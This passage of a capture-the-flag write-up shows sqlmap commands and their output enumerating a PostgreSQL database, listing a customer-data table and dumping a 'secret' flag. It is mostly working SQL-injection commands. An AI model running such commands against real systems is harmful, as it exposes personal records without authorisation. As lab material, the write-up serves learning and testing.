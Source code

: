 ```
[*] information_schema
[*] pg_catalog
[*] public

```

attack2 looking at the table in the database
```
sqlmap -r pack --level=5 --risk=3 --tables -D public --batch --random-agent

+--------------+
| clients_data |
| secret       |
+--------------+

```

we are looking for the flag column

```
sqlmap -r pack --level=5 --risk=3 --columns -D public -T clients_data --batch --random-agent

+---------+---------+
| Column  | Type    |
+---------+---------+
| name    | varchar |
| address | text    |
| email   | varchar |
| id      | int4    |
| phone   | varchar |
| plan    | varchar |
+---------+---------+

sqlmap -r pack --level=5 --risk=3 --columns -D public -T secret --batch --random-agent

+--------+--------+
| Column | Type   |
+--------+--------+
| flag   | bpchar |
| id     | int4   |
+--------+--------+

```

Find out and look 
```
sqlmap -r pack --level=5 --risk=3 --dump -D public -T secret --batch --random-agent


+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 1  | 32они_запрещают_делиться_флагамe58bd |
+----+--------------------------------------+


```

Автор: Archivist
vasya.kotov.8080@mail.ru
Соавтор: Nebty
alex122303q@gmail.com